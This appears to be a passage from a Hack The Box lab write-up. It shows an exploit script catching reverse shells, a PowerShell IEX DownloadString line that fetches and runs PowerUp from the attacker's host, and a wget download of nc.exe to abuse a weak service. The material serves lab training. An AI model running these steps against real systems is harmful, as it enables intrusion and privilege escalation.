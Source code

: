 root\@lifesfun:\~\# python3 exploit.py -u admin\@htb.local -p baconandcheese -w
'http://10.10.10.180/' -i 10.10.14.224

[+] Trying to bind to 0.0.0.0 on port 4444: Done

[+] Waiting for connections on 0.0.0.0:4444: Got connection from 10.10.10.180 on
port 49697

[+] Trying to bind to 0.0.0.0 on port 4445: Donewi

[+] Waiting for connections on 0.0.0.0:4445: Got connection from 10.10.10.180 on
port 49698

[\*] Switching to interactive mode

PS C:\\windows\\system32\\inetsrv\> type C:\\Users\\Public\\user.txt

Privilege Escalation
--------------------

For privilege escalation PowerUp, a script written by HarmJ0y, is used for quick
enumeration of some easy vectors. It presents us a service with weak
permissions.

PS C:\\windows\\system32\\inetsrv\> IEX (New-Object
Net.WebClient).DownloadString('http://10.10.14.224/PowerUp.ps1')

PS C:\\windows\\system32\\inetsrv\> Invoke-AllChecks

[\*] Running Invoke-AllChecks

[\*] Checking if user is in a local group with administrative privileges...

[\*] Checking for unquoted service paths...

[\*] Checking service executable permissions...

[\*] Checking service permissions...

[\*] Use 'Invoke-ServiceUserAdd -ServiceName SVC' or 'Invoke-ServiceCMD' to
abuse

[+] Vulnerable service: UsoSvc - C:\\Windows\\system32\\svchost.exe -k netsvcs
-p

[\*] Checking for unattended install files...

[\*] Checking %PATH% for potentially hijackable .dll locations...

[\*] Checking for AlwaysInstallElevated registry key...

[\*] Checking for Autologon credentials in registry...

[\*] Checking for encrypted web.config strings...

[\*] Checking for encrypted application pool and virtual directory passwords...

To abuse these permissions netcat is downloaded to the vicitm’s system as shown
below.

PS C:\\windows\\system32\\inetsrv\> cd C:\\inetpub\\wwwroot

PS C:\\inetpub\\wwwroot\> wget "http://10.10.14.224/nc.exe" -outfile "nc.exe"

